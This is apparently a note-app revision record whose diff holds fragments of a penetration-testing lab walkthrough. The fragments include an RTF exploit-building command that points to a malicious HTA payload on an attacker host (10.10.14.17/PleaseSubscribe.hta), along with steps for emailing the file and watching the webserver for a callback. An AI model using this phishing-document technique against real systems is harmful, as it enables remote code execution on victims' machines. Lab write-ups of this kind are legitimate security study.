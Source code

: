 id: bdc59af39d024e3d98e521d12b5bd4b2
parent_id: b3bd75a378cf4cb3ab6344aacf433291
item_type: 1
item_id: f21c6f5f2f59420ca228482d82081874
item_updated_time: 1642566933013
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\".rtf -u \"],[1,\"['\"],[0,\"http://1\"]],\"start1\":3138,\"start2\":3138,\"length1\":16,\"length2\":18},{\"diffs\":[[0,\"10.14.17\"],[1,\"/PleaseSubscribe.hta'](http://10.10.14.17)\"],[0,\" -t RTF \"]],\"start1\":3158,\"start2\":3158,\"length1\":16,\"length2\":58},{\"diffs\":[[0,\"nd the email\"],[1,\" within the webserver directory (Where the rtf file is located)\\\n\\\n![57adda8cd2c98e8c38c41369621865a4.png](:/a0ab26b867034341871e37bfb8d458a1)\\\n\\\nYou should get a response on the web Server\\\n\\\n![da9200ead64be6c175ec51877b64b94f.png](:/1e59f3941ffe4b5188f86232809f1358)\\\n\\\nHTA file did not execute\"]],\"start1\":3915,\"start2\":3915,\"length1\":12,\"length2\":300}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-19T04:35:38.229Z
created_time: 2022-01-19T04:35:38.229Z
type_: 13